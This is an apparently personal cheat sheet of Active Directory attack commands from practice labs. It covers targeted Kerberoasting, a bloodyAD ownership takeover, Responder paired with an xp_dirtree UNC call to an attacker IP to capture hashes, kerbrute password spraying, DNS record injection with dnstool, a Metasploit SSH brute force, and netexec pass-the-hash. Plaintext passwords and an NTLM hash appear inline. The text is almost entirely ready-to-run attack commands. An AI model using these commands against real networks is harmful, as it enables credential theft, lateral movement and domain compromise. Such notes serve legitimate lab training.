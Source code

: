 ### targetd kerberoast
```
python3 targetedKerberoast.py --dc-ip 10.10.11.42 -d pinocure.com -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -U ethan.txt
```

### bloodyAD
```
bloodyAD --host "10.10.11.41" -d "pinocure.com" -u "judith.mader" -p "judith09" set owner management judith.mader
```

### impacket - mssqlclient
```
impacket-mssqlclient PublicUser:GuestUserCantWrite1@pinocure.com
```

### responder
```
responder -I tun0 -v
EXEC MASTER.sys.xp_dirtree '\\10.10.14.35\test', 1, 1
```

### kerbrute
```
go build -o kerbrute
sudo ./kerbrute passwordspray userlist NewIntelligenceCorpUser9876 --dc 10.10.10.248 -d pinocure.com
```

### dnstool
```
./dnstool.py -u 'pinocure\Tiffany.Molina' -p NewIntelligenceCorpUser9876 10.10.10.248 -a add -r web1 -d 10.10.14.35 -t A
```

### msfconsole - 1회만 이용 가능
```
msfconsole
use auxiliary/scanner/ssh/ssh_login
set rhosts 10.10.10.184
set user_file users.txt
set pass_file passwords.txt
run
```

### telnet
```
telnet 10.10.10.98
```

### netexec
```
netexec smb 10.10.10.63 -u Administrator -p passwords.txt
netexec smb 10.10.10.63 -u Administrator -H e0fb1fb85756c24235ff238cbe81fe00
```
